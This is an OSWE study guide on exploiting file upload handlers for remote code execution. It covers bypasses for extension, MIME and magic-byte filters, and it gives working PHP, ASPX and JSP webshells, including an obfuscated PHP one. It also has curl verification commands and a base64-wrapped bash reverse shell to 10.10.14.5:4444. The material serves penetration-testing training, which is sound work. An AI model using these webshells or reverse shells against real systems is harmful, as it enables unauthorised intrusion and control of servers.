

# File Upload to RCE Exploitation Guide

**Target Audience**: OSWE / WEB-300 candidates
**Focus**: White-box code review + black-box testing of file upload handlers leading to remote code execution
**Time to master core techniques**: 6-8 hours (labs + review of real upload chains)

---

## Overview

File upload vulnerabilities are one of the highest-value, most reliable paths to RCE in web applications. They appear constantly in the OSWE course, exam machines, HTB, and real bug bounties.

The core issue is almost always the same:
> The application allows an attacker to place attacker-controlled content into a location that the web server will later execute or include.

This guide covers:
- Identification (code review + black box)
- The major filter types and how to bypass them (with cheat sheets and diagrams)
- Webshell construction for PHP / ASP.NET / Java
- Post-upload discovery and execution paths (including chaining)
- OSWE-specific exam strategy and reporting

Related repo resources:
- PoC: `poc-examples/file-upload-rce/`
- Case study: `notes/FILE-UPLOAD-TO-RCE.md`
- Advanced skeleton upload examples (see `poc_advanced.py` and `step_based_example.py`)
- Code review patterns: `guides/Code-Review-Checklists.md`
- Roadmap: Week 6 is dedicated to this topic

---

## Part 1: Identifying File Upload Attack Surface

### White-Box (Code Review) — Fast Wins

**High-value search terms** (run these first):
```bash
# PHP
grep -r "move_uploaded_file\|$_FILES\|is_uploaded_file" --include="*.php" .

# General dangerous file handling
grep -rn "basename.*name\|pathinfo.*extension\|in_array.*ext\|getimagesize\|exif_imagetype" .

# .NET
grep -r "PostedFile\|SaveAs\|HttpPostedFile" --include="*.cs" .

# Java
grep -r "MultipartFile\|getOriginalFilename\|transferTo" --include="*.java" .

# Anywhere
grep -rn "upload\|Upload" . | grep -i "function\|handler\|controller" | head -20
```

**Look for**:
- Client-side only validation (JS that checks extension before submit — instant red flag).
- Server-side checks that only inspect the client-supplied filename extension.
- Use of the original filename in the final path without aggressive sanitization.
- Uploads landing inside the web root (`/var/www/html/uploads`, `C:\inetpub\wwwroot\files`, etc.).
- No re-encoding / content validation for "image" or "document" uploads.
- Later code that `include()`, `require()`, `file_get_contents()`, or serves the uploaded path directly.

**Quick 5-minute scan script** (from Code-Review-Checklists):
```bash
echo "[*] File Operations..."
grep -rn "file_get_contents\|fopen\|include\|require\|move_uploaded_file" . 2>/dev/null | grep "\$_" | head -15
```

### Black-Box / Gray-Box
- Any form with `<input type="file">`.
- "Import", "Avatar", "Theme upload", "Plugin install", "Document upload", "Backup restore", "CSV import".
- API endpoints accepting `multipart/form-data`.
- Features that take a "URL to file" and then fetch + store it (SSRF + upload combo).

Test immediately with a benign `test.txt` containing `test` and watch the response + where the file appears on disk (if you have any visibility).

---

## Part 2: The Filter Bypass Cheat Sheet (Core of the Topic)

Most apps implement 1-3 weak checks. Learn the matrix below cold.

### Extension-Based Filters

| Filter Type                  | Example Check (bad)                          | Bypass Technique                     | Filename to Try                  |
|------------------------------|----------------------------------------------|--------------------------------------|----------------------------------|
| Client-side only             | JS `if (!/\.(jpg\|png)$/.test(name))`       | Burp / direct POST                 | `shell.php`                     |
| Simple allow-list (ext)      | `in_array($ext, ['jpg','png'])`             | Double extension (Apache)          | `shell.php.jpg`                 |
| Case-sensitive list          | exact match on lowercase                     | Case variation                     | `shell.PHP` or `shell.pHp`      |
| "Remove dangerous ext"       | str_replace('.php','',$name)                 | Double + null (old) or recursion   | `shell.php.php` or `shell.p.phpp` |
| Blacklist (never do this)    | block list of bad words                      | Encoding / null byte / trailing dot| `shell.php%00.jpg`, `shell.php.` |

**Apache double extension reality**: If the app uses `AddHandler php5-script .php` or similar and the last extension is not in a strict list, Apache may still execute the file as PHP when the name ends in `.php.something`.

### Content-Type / MIME Filters

Many "image only" apps do:
```php
if ($_FILES['file']['type'] != 'image/jpeg') die("bad type");
```

**Bypass**: Send correct extension + lying `Content-Type: image/jpeg`. The server often trusts the header more than the actual bytes or final extension.

### Magic Byte / Content Validation

Apps that do `getimagesize()`, `exif_imagetype()`, or run `file` command.

**Bypass**: Prepend a valid image header. The PHP parser still sees `<?php` later in the file.

```php
GIF89a<?php system($_GET['cmd']); ?>
# or
\xff\xd8\xff\xe0... + <?php ...
```

Send as `image/gif` or `image/jpeg`.

### Filename Sanitization Failures

- Only `basename()` → removes path but keeps dangerous extension.
- No check for `..` in some rename logic.
- Null byte truncation in older move + include flows.
- Windows ADS / trailing dot / colon tricks (`shell.php::$DATA`, `shell.php:1.jpg`).

### Size, Number, and "Type" Limits

- Upload 100MB "image" → sometimes crashes parsers or reveals temp paths.
- Upload many files → race conditions or quota bypass.
- Change the `name` attribute in the form to something unexpected.

---

## Part 3: Webshell Construction (Cheat Sheet)

### PHP (most common in OSWE labs)

```php
<?php system($_REQUEST['cmd']); ?>
<?php @eval($_REQUEST['cmd']); ?>   <!-- slightly harder to spot -->
<?php if(isset($_GET['c'])){passthru($_GET['c']);} ?>
```

Obfuscation when WAFs are present (rare in exam but useful):
- `<?php $x='s'.'y'.'s'.'t'.'e'.'m';$x($_GET['c']); ?>`
- Use `assert`, `create_function`, `call_user_func`, etc.

### ASPX / C# (IIS targets)

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e){
    string c = Request["cmd"];
    if(c!=null){
        Process p=new Process();
        p.StartInfo.FileName="cmd.exe";
        p.StartInfo.Arguments="/c "+c;
        p.StartInfo.UseShellExecute=false;
        p.StartInfo.RedirectStandardOutput=true;
        p.Start();
        Response.Write(p.StandardOutput.ReadToEnd());
    }
}
</script>
```

### JSP (Java app servers)

```jsp
<%@ page import="java.io.*" %>
<% 
String cmd = request.getParameter("cmd");
if(cmd != null){
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String l; while((l=r.readLine())!=null) out.println(l);
}
%>
```

**Pro move**: Upload a one-liner first to confirm execution, then use it to `wget` or `curl` a larger, full-featured shell (weevely, php-reverse-shell, etc.).

---

## Part 4: Attack Flow Diagrams

### Basic Upload → RCE Flow (ASCII)

```
Attacker
   |
   v
[ Upload Form / API ]  -->  [ Weak Validation ]  -->  [ move_uploaded_file / SaveAs ]
                                                           |
                                                           v
                                                   /var/www/html/uploads/shell.php.jpg
                                                           |
   (direct request or LFI) <-------------------------------+
                                                           |
                                                           v
                                                   Web server executes as PHP
                                                           |
                                                           v
                                                   RCE (system() / cmd.exe)
```

### Chained Example (very OSWE-like)

```
Auth Bypass / SQLi / XSS (admin context)
            |
            v
    CSRF or direct upload of malicious plugin/theme/avatar
            |
            v
    File lands in webroot (because "plugin dir" is writable + in include_path)
            |
            v
    Trigger include/execution via another app feature or direct access
            |
            v
    RCE
```

Use Mermaid in your personal notes if your renderer supports it:



---

## Part 5: Post-Upload Discovery & Execution Paths

After a "successful" upload, the file is not always at the obvious path.

**Discovery techniques**:
1. **Response body** — many apps literally print the saved path or a link.
2. **Predictable directories**:
   - `/uploads/`, `/files/`, `/userfiles/`, `/images/`, `/attachments/`, `/tmp/`, webroot itself.
3. **Error messages** or directory listing (if enabled).
4. **Second-order** — the filename is stored in DB and later used in an include or `file_get_contents`.
5. **Path traversal in upload** — try `../../../shell.php` in the filename (some apps append your name to a safe dir).
6. **Brute common names** after you control part of the name.

**Execution / Trigger**:
- Direct HTTP request to the file (most common).
- LFI / RFI that includes the uploaded path.
- "Theme" or "plugin" activation that includes the file.
- Deserialization of a file you uploaded (PHAR, .NET serialized, etc.).
- Scheduled task or cron that processes the upload dir.

---

## Part 6: OSWE Exam Strategy & Time Management

**Typical timeline on an upload-heavy machine**:
- 5-10 min: Find the upload form + any preceding auth bypass or SQLi that gives you upload rights.
- 10-15 min: Test 3-4 bypass combinations manually in Burp Repeater (double ext + content-type lie + magic bytes are the big three).
- 10 min: Script the working chain (use the skeleton in this repo).
- 5 min: Verify + document path + command output + screenshot.

**Priorities**:
- If you have any write primitive (SQL `INTO OUTFILE`, deserial file write, etc.), treat it as an upload and look for includable locations.
- Profile picture / avatar uploads are classic because they are often unauthenticated or low-priv and land in webroot.
- Admin-only uploads (themes, plugins, language packs) are extremely powerful once you have any form of admin session (XSS → CSRF upload is a classic chain — see Atmail in this repo).

**Reporting must-haves**:
- Exact filename used and bypass method(s).
- Full request (or at least the critical headers/parts).
- Where the file was written (full server path if disclosed).
- How you executed it (direct URL + parameters).
- Proof (output of `id` / `whoami` or callback).
- Screenshot of the vulnerable code if doing white-box.

**Common pitfalls**:
- Forgetting to actually request the shell after upload ("it uploaded, I must have RCE" — no).
- Assuming the path is `/uploads/` when the app uses a different folder or renames the file.
- Using a shell with syntax error (missing `<?php` at byte 0 after magic header).
- Not trying combined bypasses when single ones fail.

---

## Part 7: Quick Reference Cheat Sheets

### Bypass Decision Tree (exam memory aid)
1. Try `shell.php.jpg` + `Content-Type: image/jpeg` (double + lie)
2. Try `shell.php` + `Content-Type: image/jpeg` (lie only)
3. Try `GIF89a<?php ... ?>` saved as `shell.php` + image/gif (magic)
4. Try case: `shell.PHP`
5. Try null: `shell.php%00.jpg` (legacy targets)
6. If nothing: look for path disclosure in response or other write primitives.

### Verification One-Liners
```bash
curl -s 'http://target/uploads/shell.php?cmd=whoami'
curl -s 'http://target/uploads/shell.php?cmd=ping+-c+1+10.10.14.5'  # OOB
# From inside a shell you already have:
echo 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1' | base64
# then curl ...?cmd=bash+-c+"echo+BASE64|base64+-d|bash"
```

### Code Review Grep Matrix (copy into your notes)

**PHP**:
```bash
move_uploaded_file|$_FILES|pathinfo.*extension|basename.*$_FILES|getimagesize|exif_imagetype|mime_content_type
```

**.NET**:
```bash
HttpPostedFile|PostedFile|SaveAs|ContentType|FileName
```

**Java**:
```bash
MultipartFile|getOriginalFilename|transferTo|CommonsMultipartFile
```

### Recommended Lab Progression (from Roadmap)
1. Build the simple vulnerable `upload.php` above and beat it with all bypasses.
2. Do HTB Popcorn or Vault (or watch Ippsec).
3. Script the chain with this repo's skeleton (use the new `file-upload-rce` PoC as reference).
4. Add file upload as a step in a larger chain (XSS → CSRF upload, SQLi → write shell via outfile then include, etc.).

---

## References

- HackTricks: https://book.hacktricks.xyz/pentesting-web/file-upload
- PayloadsAllTheThings (Upload Insecure Files): https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
- PortSwigger Web Security Academy (File upload vulnerabilities labs)
- OWASP WSTG - Test Upload of Unexpected File Types
- This repo's `poc-examples/file-upload-rce/`, `notes/FILE-UPLOAD-TO-RCE.md`, advanced-skeleton upload placeholders, and Roadmap Week 6.

Master the bypass matrix + the ability to quickly turn a write primitive into an executable webshell and you will have one of the most consistent RCE tools in your OSWE toolkit.

---

**Next step for practice**: Stand up the simple vulnerable uploader from the Notes.md in `poc-examples/file-upload-rce/`, then run the PoC against it with different `--bypass` flags until all major techniques are second nature.
